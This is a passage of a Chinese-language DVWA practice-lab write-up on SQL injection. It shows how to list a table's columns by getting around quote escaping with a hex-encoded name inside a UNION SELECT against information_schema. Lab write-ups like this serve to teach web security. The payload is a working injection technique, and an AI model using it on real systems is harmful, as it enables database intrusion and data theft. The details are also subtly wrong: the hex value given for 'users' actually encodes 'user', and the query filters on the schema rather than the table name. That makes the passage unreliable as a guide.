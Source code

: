 

(6)判断列名

我们输入users之后，发现没有如何反应

通过源代码我们可以知道，发现它对单引号进行了转义，我们采用16进制绕过，得知users的十六进制为 0x75736572

![image-20230729130759032](./DVWA.assets/image-20230729125720152.png)



```mysql
1  union select 1,group_concat(column_name) from information_schema.columns where table_schema=0x75736572#
```

![image-20230729133424995](./DVWA.assets/image-20230729132441788.png)
